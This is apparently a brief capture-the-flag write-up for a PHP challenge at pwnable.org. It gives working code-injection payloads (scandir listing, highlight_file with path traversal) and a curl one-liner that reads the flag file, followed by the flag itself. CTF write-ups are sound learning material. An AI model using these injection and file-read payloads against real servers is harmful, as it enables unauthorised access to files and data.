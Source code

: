 **Challenge:** http://pwnable.org:19260/?rh=

Listing files: `var_dump(scandir("<Directory>"));`
Getting the flag: `highlight_file("../../../flag.so");`

Run: `curl 'http://pwnable.org:19260/?rh=highlight_file("/flag.so");' | strings | grep flag{`

**Flag**: flag{FFi_1s_qu1T3_DANg1ouS}
